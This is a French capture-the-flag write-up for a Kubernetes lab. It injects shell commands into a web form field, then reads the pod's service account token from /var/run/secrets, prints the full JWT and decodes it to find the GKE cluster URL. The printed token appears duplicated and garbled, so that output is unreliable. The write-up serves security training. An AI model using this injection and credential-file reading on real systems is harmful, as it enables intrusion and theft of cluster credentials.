




# K8s: Enumeration 101

La mission consiste à explorer leur infrastructure Kubernetes et à découvrir des failles de sécurité. 
L'objectif de ce défi est d'obtenir l'URL GKE du cluster Kubernetes.

> Dans l'infrastructure Kubernetes, un JWT (JSON Web Token) est utilisé pour l'authentification et l'autorisation des comptes de service et fournit des informations utiles sur le cluster une fois décodé.

---

# Solution

## Étape 1 et 2

Demarrer et visiter l'url du lab http://34.131.42.95:32426



## Étape 3

Cliquez sur le bouton « Mettre à jour les informations » en haut à droite de la page et vous accéderez à la page comme indiqué ci-dessous.



## Étape 4

Cette page présente une vulnérabilité d'exécution de code à distance (RCE) dans le champ « Nom de votre organisation » . Renseignez les trois premiers champs avec des informations aléatoires et saisissez « printenv » dans le dernier. Cliquez ensuite sur « Soumettre », comme indiqué dans l'image ci-dessous.



## Étape 5

La commande `ls /var/run/secrets/kubernetes.io/serviceaccount/` 
listera tous les fichiers présents dans le répertoire `var/run/secrets/kubernetes.io/serviceaccount/` . 

Ce répertoire contient les jetons Kubernetes et d'autres jetons sensibles, et est associé à chaque pod.



## Étape 6

La commande `cat /var/run/secrets/kubernetes.io/serviceaccount/token` affichera le JWT.

```
eyJhbGciOiJSUzI1NiIsImtpZCI6IlVwVmxGT19wZHVWcXJfd0tObG1RRUU3eE44VTcwMkY0ZG90Mk9QaWdyeTAifQ.eyJhdWQiOlsiaHR0cHM6Ly9jb250YWluZXIuZ29vZ2xlYXBpcy5jb20vdjEvcHJvamVjdHMva3ViZXJuZXRlcy1na2UtNDYyMDExL2xvY2F0aW9ucy9hc2lhLXNvdXRoMi1hL2NsdXN0ZXJzL3NlY3VyZS1jb3JwLWs4cyJdLCJleHAiOjE4MDUyMDM4MTMsImlhdCI6MTc3MzY2NzgxMywiaXNzIjoiaHR0cHM6Ly9jb250YWluZXIuZ29vZ2xlYXBpcy5jb20vdjEvcHJvamVjdHMva3ViZXJuZXRlcy1na2UtNDYyMDExL2xvY2F0aW9ucy9hc2lhLXNvdXRoMi1hL2NsdXN0ZXJzL3NlY3VyZS1jb3JwLWs4cyIsImp0aSI6ImMzMDg3Yzk5LTgyYjAtNGRlZS05YzZkLWNmMDU5NGE5MjU1ZCIsImt1YmVybmV0ZXMuaW8iOnsibmFtZXNwYWNlIjoiZGVmYXVsdCIsIm5vZGUiOnsibmFtZSI6ImdrZS1zZWN1cmUtY29ycC1rOHMtc2VjdXJlLWNvcnAtaW5maW4tYjcxYWZiMTcteTc5ZyIsInVpZCI6ImNmMzM1NDI0LWRlYmYtNDg5My05MTcwLTU4NzEyMWY3ZmNhOCJ9LCJwb2QiOnsibmFtZSI6Ink5NzA5NThlMzI4MjQyODg5NDdkZTEzNzFhZWQwNzZvLTc1ZGQ3NTVkOTUtN2s5emMiLCJ1aWQiOiIwMDNmMDFhZS1mYzFiLTRiYzUtYWQzMS00OGU5NjdjY2QxY2QifSwic2VydmljZWFjY291bnQiOnsibmFtZSI6ImRlZmF1bHQiLCJ1aWQiOiIyY2ZmYTAwZi04MjA4LTQ5MTctYjU0ZC1hZWIxNGQ5ZjI2YjIifSwid2FybmFmdGVyIjoxNzczNjcxNDIwfSwibmJmIjoxNzczNjY3ODEzLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6ZGVmYXVsdDpkZWZhdWx0In0.qo4IBvBGqRbLZzHlh-hE_LfSCtgbPs5Df1Ji4uuDIjfFFz21XRP-hKOcfobjgvEASZn0YbBDxcBmkEHlKwefI4pv-pMBUer4_VEBdMVmT4qmY7iYBIafp8wDqR6whWyPzyTtH38G08nqC-C6fwbVy2CvTECPxeR43FOQBtP60oPLBLGRkOyy-rx2JZ6nlVPM9Eh70TvUecMeh_XlNjOs-02Ws8lSmmC0rFM1YU5lqRKk2R7Cyy2JNXSLhc6fP1hpJ0ClTbn0D-uw9OY9xVMwK9RS-vsKKUmXFGJcfNvk7zoDnzcv-x9Y9q6Eysq-CrxKC7KUEEkdbGkCTAo6Ix7LKweyJhbGciOiJSUzI1NiIsImtpZCI6IlVwVmxGT19wZHVWcXJfd0tObG1RRUU3eE44VTcwMkY0ZG90Mk9QaWdyeTAifQ.eyJhdWQiOlsiaHR0cHM6Ly9jb250YWluZXIuZ29vZ2xlYXBpcy5jb20vdjEvcHJvamVjdHMva3ViZXJuZXRlcy1na2UtNDYyMDExL2xvY2F0aW9ucy9hc2lhLXNvdXRoMi1hL2NsdXN0ZXJzL3NlY3VyZS1jb3JwLWs4cyJdLCJleHAiOjE4MDUyMDM4MTMsImlhdCI6MTc3MzY2NzgxMywiaXNzIjoiaHR0cHM6Ly9jb250YWluZXIuZ29vZ2xlYXBpcy5jb20vdjEvcHJvamVjdHMva3ViZXJuZXRlcy1na2UtNDYyMDExL2xvY2F0aW9ucy9hc2lhLXNvdXRoMi1hL2NsdXN0ZXJzL3NlY3VyZS1jb3JwLWs4cyIsImp0aSI6ImMzMDg3Yzk5LTgyYjAtNGRlZS05YzZkLWNmMDU5NGE5MjU1ZCIsImt1YmVybmV0ZXMuaW8iOnsibmFtZXNwYWNlIjoiZGVmYXVsdCIsIm5vZGUiOnsibmFtZSI6ImdrZS1zZWN1cmUtY29ycC1rOHMtc2VjdXJlLWNvcnAtaW5maW4tYjcxYWZiMTcteTc5ZyIsInVpZCI6ImNmMzM1NDI0LWRlYmYtNDg5My05MTcwLTU4NzEyMWY3ZmNhOCJ9LCJwb2QiOnsibmFtZSI6Ink5NzA5NThlMzI4MjQyODg5NDdkZTEzNzFhZWQwNzZvLTc1ZGQ3NTVkOTUtN2s5emMiLCJ1aWQiOiIwMDNmMDFhZS1mYzFiLTRiYzUtYWQzMS00OGU5NjdjY2QxY2QifSwic2VydmljZWFjY291bnQiOnsibmFtZSI6ImRlZmF1bHQiLCJ1aWQiOiIyY2ZmYTAwZi04MjA4LTQ5MTctYjU0ZC1hZWIxNGQ5ZjI2YjIifSwid2FybmFmdGVyIjoxNzczNjcxNDIwfSwibmJmIjoxNzczNjY3ODEzLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6ZGVmYXVsdDpkZWZhdWx0In0.qo4IBvBGqRbLZzHlh-hE_LfSCtgbPs5Df1Ji4uuDIjfFFz21XRP-hKOcfobjgvEASZn0YbBDxcBmkEHlKwefI4pv-pMBUer4_VEBdMVmT4qmY7iYBIafp8wDqR6whWyPzyTtH38G08nqC-C6fwbVy2CvTECPxeR43FOQBtP60oPLBLGRkOyy-rx2JZ6nlVPM9Eh70TvUecMeh_XlNjOs-02Ws8lSmmC0rFM1YU5lqRKk2R7Cyy2JNXSLhc6fP1hpJ0ClTbn0D-uw9OY9xVMwK9RS-vsKKUmXFGJcfNvk7zoDnzcv-x9Y9q6Eysq-CrxKC7KUEEkdbGkCTAo6Ix7LKw!
```

```json
"aud": [
    "https://container.googleapis.com/v1/projects/kubernetes-gke-462011/locations/asia-south2-a/clusters/secure-corp-k8s"
]
```

